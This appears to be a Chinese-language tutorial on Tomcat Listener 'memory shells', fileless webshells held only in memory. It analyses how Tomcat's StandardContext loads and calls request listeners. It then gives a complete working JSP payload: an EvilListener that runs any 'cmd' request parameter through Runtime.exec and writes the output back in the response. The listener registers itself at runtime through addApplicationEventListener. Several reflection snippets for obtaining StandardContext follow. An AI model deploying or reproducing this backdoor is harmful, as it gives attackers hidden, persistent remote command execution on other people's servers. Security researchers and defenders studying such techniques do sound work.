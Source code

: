 ## Tomcat-Listener内存马

### 简介

Listener监听器就是一个实现了`ServletRequestListener`接口的java代码，主要就是监听一个java对象的方法调用和属性改变。当被监听的对象发生改变时，这个监听器就会触发。我们也知道三种组件的过程，Listener>Filter>Servlet。所以Listener是最先被加载的，很方便去构造一个内存马。Listener的几种：

- ServletContext，服务器启动和终止时触发

- Session，有关Session操作时触发

- Request，访问服务时触发

### Listener流程分析

编写一个Listener程序：

```java
package Listener;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;

public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent var1){
        System.out.println("destroy listener");
    }
    public void requestInitialized(ServletRequestEvent var1){
        System.out.println("init listener");
    }
}


```

web.xml

```xml
<listener>
    <listener-class>Listener.TestListener</listener-class>
  </listener>
```

我们主要关注点就是`Listener`的初始化和`requestInitialized`方法的调用。

打上断点：

![image-20221121223225347](img/image-20221121223225347.png)

`StandardContext`的这个方法`startInternal`,我们都可以看出三种组件的加载顺序

![image-20221121223635777](img/image-20221121223635777.png)

初始化是从`StandardContext`的`listenerStart`方法开始的

![image-20221121223459117](img/image-20221121223459117.png)



其中`findApplicationListeners()`是获取`listener`的名称，然后进行实例化

![image-20221121224612330](img/image-20221121224612330.png)

其中对`Manager`类的介绍

![image-20221121224826551](img/image-20221121224826551.png)

前面实例化后的Listener都放到了`eventListeners`中

![image-20221121225049575](img/image-20221121225049575.png)



`eventListeners.addAll(Arrays.asList(this.getApplicationEventListeners()));`会将`ApplicationEventListeners`中也添加到`eventListeners`中

紧接着`this.setApplicationEventListeners(eventListeners.toArray());`直接设置`ApplicationEventListeners`的值

在`StartdardContext`的`fireRequestInitEvent`中，获取`ApplicationEventListeners`的值，然后进行遍历，对遍历的每一个`listener`监听器进行`requestInitialized`方法的调用（也就是我们重写的方法）

![image-20221121230206497](img/image-20221121230206497.png)

![image-20221121225732674](img/image-20221121225732674.png)

### 内存马实现流程分析

根据上面的分析，我们可以知道Listener来源于tomcat初始化时从web.xml实例化的Listener和applicationEventListenersList中的Listener，前者我们无法控制，但是后者我们可以控制，只需要往applicationEventListenersList中加入我们的恶意Listener即可。

怎么去加入我们恶意的`listener`呢？

![image-20221121230133478](img/image-20221121230133478.png)

直接提供了public方法，可以直接添加值

步骤：

\- 继承并编写一个恶意Listener
\- 获取StandardContext
\- 调用`StandardContext.addApplicationEventListener()`添加恶意Listener



代码：

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class EvilListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            //获取request
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    //获取response
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    EvilListener listener= new EvilListener();
    context.addApplicationEventListener(listener);
%>
```

其中获取`StandardContext`的方法有：

```java
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext context = (StandardContext) req.getContext();
```

获取到`Request`对象后，可以通过`getContext`获取到`StandardContext`（利用了Context接口）

![image-20221121231349086](img/image-20221121231349086.png)

![image-20221121231438398](img/image-20221121231438398.png)



还有种方法就是通过`req.getSession().getServletContext()`

其中`req`是`ServletRequest`对象

![image-20221121231745189](img/image-20221121231745189.png)

```jsp
<%
    Field appContextField = ApplicationContextFacade.class.getDeclaredField("context");
    appContextField.setAccessible(true);
    Field standardContextField = ApplicationContext.class.getDeclaredField("context");
    standardContextField.setAccessible(true);

    ServletContext servletContext = request.getSession().getServletContext();
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

%>

```

又给出一种

```java
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

### 获取`StandardContext`的方法

```
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext context = (StandardContext) req.getContext();
```

```
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

